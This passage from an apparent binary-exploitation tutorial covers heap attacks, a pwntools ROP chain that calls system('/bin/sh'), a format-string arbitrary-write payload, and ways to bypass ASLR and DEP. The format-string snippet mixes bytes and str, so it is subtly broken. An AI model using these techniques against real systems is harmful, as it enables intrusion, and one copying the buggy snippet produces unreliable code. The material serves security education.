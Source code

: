 2. **Heap exploitation**:
   - Use-after-free exploitation
   - Heap overflow to corrupt metadata
   - Double-free vulnerabilities

3. **Return-oriented programming (ROP)**:
   ```python
   # ROP chain example
   from pwn import *
   
   # Target binary
   elf = ELF("./vulnerable_program")
   
   # ROP gadgets
   pop_rdi = 0x4006a3  # pop rdi; ret
   pop_rsi = 0x4006a5  # pop rsi; ret
   system_addr = elf.symbols["system"]
   bin_sh_addr = next(elf.search(b"/bin/sh"))
   
   # Build ROP chain
   payload = b"A" * 72  # Buffer padding
   payload += p64(pop_rdi)  # Set up first argument
   payload += p64(bin_sh_addr)  # Address of "/bin/sh"
   payload += p64(system_addr)  # Call system("/bin/sh")
   ```

4. **Format string exploitation**:
   ```python
   # Format string to write to arbitrary address
   target_addr = 0x0804a028  # Address to overwrite
   value = 0x41414141       # Value to write
   
   # Calculate position of our buffer on the stack
   buffer_position = 7  # Determined through testing
   
   # Craft format string payload
   payload = struct.pack("<I", target_addr)  # Address to write to
   payload += "%{}x".format(value - len(payload))  # Padding to desired value
   payload += "%{}$n".format(buffer_position)  # Write the accumulated length
   ```

#### Exploit Mitigations and Bypasses

Understanding and circumventing security protections:

1. **Address Space Layout Randomization (ASLR)**:
   - **Mitigation**: Randomizes memory addresses
   - **Bypass techniques**:
     - Memory leaks to discover runtime addresses
     - Brute forcing on systems with low entropy
     - Relative addressing when partial leaks are available

2. **Data Execution Prevention (DEP/NX)**:
   - **Mitigation**: Prevents execution of data regions
   - **Bypass techniques**:
     - Return-oriented programming (ROP)
     - Jump-oriented programming (JOP)
     - Leveraging just-in-time (JIT) compilation
